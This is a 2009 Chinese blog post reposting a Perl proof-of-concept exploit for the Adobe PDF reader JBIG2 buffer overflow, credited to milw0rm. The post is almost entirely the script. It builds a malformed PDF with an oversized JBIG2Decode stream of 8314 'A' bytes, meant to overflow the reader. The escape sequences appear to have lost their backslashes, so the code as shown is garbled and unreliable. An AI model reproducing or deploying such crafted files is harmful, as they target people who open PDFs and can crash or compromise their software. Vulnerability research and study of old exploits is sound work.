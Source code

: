 ```yaml
---
title: Adobe PDF阅读器JBIG2本地缓冲区溢出漏洞 0day利用工具exploit
description: AdobePDF阅读器JBIG2本地缓冲区溢出漏洞0day利用工具exploit#!/usr/bin/perl#k`sOSe02/22/2009#http://vrt-sourcefire.blogspot.com/2009/02/have-nice-weekend-pdf-love.html......
date: 2009-02-25 09:11:34
category: 漏洞信息
tags: ['PDF', '0day', 'exploit', 'PoC', '缓冲区溢出', '漏洞信息']
post_id: 795
alias: Adobe-PDF-Reader-JBIG2-Local-Buffer-Overflow-PoC
ViewNums: 4092
---
```


[Adobe PDF阅读器JBIG2本地缓冲区溢出漏洞 0day利用工具exploit](/blog/adobe-pdf-reader-jbig2-local-buffer-overflow-poc)

#!/usr/bin/perl
# k`sOSe 02/22/2009

# http://vrt-sourcefire.blogspot.com/2009/02/have-nice-weekend-pdf-love.html

my $size = "x40x00";
my $factor = "ABCD";
my $data = "A" x 8314;

print pdf();

sub pdf()
{

"%PDF-1.5
" .
"%xecxf5xf2xe1xe4xefxe3xf5xedxe5xeexf4
" .
"3 0
" .
"xref
" .
"3 16
" .
"0000000023 00000 n
" .
"0000000584 00000 n
" .
"0000000865 00000 n
" .
"0000001035 00000 n
" .
"0000001158 00000 n
" .
"0000001287 00000 n
" .
"0000001338 00000 n
" .
"0000001384 00000 n
" .
"0000002861 00000 n
" .
"0000003637 00000 n
" .
"0000005126 00000 n
" .
"0000005173 00000 n
" .
"0000005317 00000 n
" .
"0000005370 00000 n
" .
"0000005504 00000 n
" .
"0000000714 00000 n
" .
"trailer
" .
"<</Root 4 0 R/Info 2 0 R/ID[<AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA> <AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>]/Size 19/Prev 10218>>
" .
"startxref
" .
"0
" .
"%%EOF
" .
"
" .
"4 0 obj
" .
"<</Type/Catalog/Pages 1 0 R/OCProperties<</OCGs[9 0 R 13 0 R]/D<</Order[9 0 R 13 0 R]/ON[9 0 R 13 0 R]/OFF[]>>>>>>
" .
"endobj
" .
"
" .
"5 0 obj
" .
"<</Type/Page/MediaBox[0 0 640 480]/Resources<</XObject<</Im001 7 0 R/Im002 10 0 R/Im003 11 0 R/Im004 14 0 R/Im005 16 0 R>>>>/Contents 6 0 R/Parent 1 0 R>>
" .
"endobj
" .
"6 0 obj
" .
"<</Length 56/Filter/FlateDecode>>
" .
"stream
" .
"xx9cxe3*T031Px00Ax13x0bx08x9dx9cxabxa0xefx99k``xa8xe0x92xafx10xc8x85[x81x11!x05xc6x84x14x98xc0x14xc0$@xb4x05xb2
" .
"Sxb0
" .
"x00Jx15#,
" .
"endstream
" .
"endobj
" .

"12 0 obj
" .
"<</Subtype/Image/Width 640/Height 480/ColorSpace/DeviceGray/BitsPerComponent 1/Decode[1 0]/Interpolate true/Length 1314/Filter/JBIG2Decode>>
" .
"stream
" .
"x00x00x00x01" . $size . $factor . "x13" . $data . "endstream
" .
"endobj
" .
"13 0 obj
" .
"<</Type/OCG/Name(Text Color)>>
" .
"endobj
" .
"14 0 obj
" .
"<</Subtype/Image/Width 1/Height 1/ColorSpace/DeviceGray/BitsPerComponent 8/SMask 12 0 R/OC 15 0 R/Length 1>>
" .
"stream
" .
"x00
" .
"endstream
" .
"endobj
" .

"1 0 obj
" .
"<</Type/Pages/Kids[5 0 R]/Count 1>>
" .
"endobj
" .
"xref
" .
"0 3
" .
"0000000000 65535 f
" .
"0000009988 00000 n
" .
"0000010039 00000 n
" .
"trailer
" .
"<</ID[<AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA> <AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>]/Size 3>>
" .
"startxref
" .
"104
" .
"%%EOF
";

}

# [milw0rm.com](http://www.milw0rm.com/exploits/8099) [2009-02-23]

